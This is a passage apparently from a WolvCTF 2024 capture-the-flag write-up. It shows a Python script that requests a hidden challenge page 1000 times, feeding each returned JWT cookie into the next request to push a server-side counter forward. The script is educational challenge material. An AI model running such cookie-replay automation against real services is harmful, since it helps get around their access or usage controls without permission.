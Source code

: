 ![beginner27.png](/assets/posts/wolvctf2024/beginner27.png)

```python
import requests

# Define the URL and initial cookie value
url = 'https://gauntlet-okntin33tq-ul.a.run.app/hidden83365193635473293'
initial_cookie = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb3VudGVyIjoyfQ.mmGFwHhAssPPS6Xq3ptN1ViB7T4B_3KaAKySvnhdlUk'

# Send requests and update cookie
def send_request(url, cookie):
    headers = {
        'Cookie': f'jwt-uncrackable-cookie-counter={cookie}',
        'Cache-Control': 'max-age=0',
        'Sec-Ch-Ua': '"Chromium";v="121", "Not A(Brand";v="99"',
        'Sec-Ch-Ua-Mobile': '?0',
        'Sec-Ch-Ua-Platform': '"Linux"',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Sec-Fetch-Site': 'none',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Sec-Fetch-Dest': 'document',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'en-US,en;q=0.9',
        'Priority': 'u=0, i'
    }
    response = requests.get(url, headers=headers)
    return response.cookies.get('jwt-uncrackable-cookie-counter'), response.text

for i in range(1000):
    print(f"Visiting page {i+1}...")
    updated_cookie, response_page = send_request(url, initial_cookie)
    print(f"Updated cookie: {updated_cookie}")
    initial_cookie = updated_cookie

print("Response page after 1000 requests:")
print(response_page)
```
